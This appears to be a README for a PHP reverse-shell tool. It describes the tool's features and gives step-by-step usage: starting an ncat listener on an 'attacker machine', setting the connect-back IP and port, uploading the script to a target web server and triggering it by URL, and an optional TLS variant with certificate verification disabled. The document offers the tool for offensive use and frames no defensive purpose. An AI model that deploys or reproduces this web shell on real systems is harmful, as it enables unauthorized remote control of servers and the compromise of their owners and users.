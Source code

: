 simple PHP Reverse Shell — NZRXHX

## Features

- Fully functional reverse shell over TCP
- Compatible with Linux and Windows (auto-detects shell)
- Minimal dependencies — pure PHP
- Forks to background (daemonizes) when possible
- Stable stream handling (fixed `feof()` false positives)
- Keep-alive mechanism to maintain long-lived connections

---

## Usage

# 1. Start Listener

On your **attacker machine**, start a listener:
```bash
ncat -lvnp 443
```
You may replace 443 with another port.

# 2. Edit Script

Modify the following values in the PHP script:
```php
$remote_host = 'YOUR_IP';
$remote_port = 443;
$allowed_hosts = ['YOUR_IP'];
```

# 3. Upload and Execute

Upload the PHP script to the target system and trigger it via a web request:

http://target.com/shell.php

Optional: TLS (SSL) Support

## If using a TLS listener:

```bash
ncat --ssl -lvnp 443
```
Then change this line in the script:
```php
$socket = stream_socket_client("tcp://...");
```
to:
```php
$context = stream_context_create([
  'ssl' => ['verify_peer' => false, 'verify_peer_name' => false]
]);
$socket = stream_socket_client("ssl://$remote_host:$remote_port", $errno, $errstr, $timeout, STREAM_CLIENT_CONNECT, $context);
```
